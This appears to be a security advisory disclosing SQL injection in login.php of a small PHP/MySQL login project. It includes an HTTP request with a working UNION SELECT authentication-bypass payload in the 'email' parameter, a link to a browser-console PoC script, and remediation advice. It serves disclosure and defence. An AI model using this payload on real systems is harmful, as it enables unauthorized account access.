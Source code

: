 # keerti1924 / PHP-MYSQL-User-Login-System - login.php SQL Injection

## Vendor Homepage:
[PHP-MYSQL-User-Login-System](https://github.com/keerti1924/PHP-MYSQL-User-Login-System)

## Impact
The login.php script in keerti1924's PHP-MYSQL-User-Login-System is vulnerable to SQL injection (SQLi) attacks. Exploiting this flaw, attackers can bypass authentication by injecting malicious SQL code via the 'email' parameter. By crafting a UNION SELECT statement, an attacker can manipulate the query to retrieve unauthorized data, potentially compromising user credentials or gaining unauthorized access to the application. Moreover, to successfully exploit this vulnerability, the 'password' parameter must match the hash of the email payload password retrieved via the UNION SELECT statement, further amplifying the risk of unauthorized access.

## Proof of Concept
Step 1: Visit the /login.php
Step 2: Open Browser Console
Step 3: Run [SQLI Auth POC](https://raw.githubusercontent.com/skid-nochizplz/skid-nochizplz/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20POC.js)
Step 4: User will be redirected to home.php

## HTTP Request Example

```http request
POST /login.php HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

email = '%20UNION%20SELECT%201%20AS%20id%2c%20'NoChizPlz'%20AS%20username%2c%20'nochizplz%40nochizplz.com'%20AS%20email%2c%20'%242a%2412%24xkhwduBCkSl3tPhWVokC%2fOmrhboA0gxDWaVLl4uPLr2iSbXEtNdCq'%20AS%20password%20%23&password=nochizplz&login=Login
```

### Proof with Video:
![Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20Proof.gif?raw=true)

## Remediation
To mitigate this SQL injection vulnerability, it is recommended to implement proper input validation and parameterized queries to prevent untrusted data from being directly interpreted as part of SQL commands. Additionally, enforcing principle of least privilege and ensuring strong authentication mechanisms can help minimize the impact of potential exploitation.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)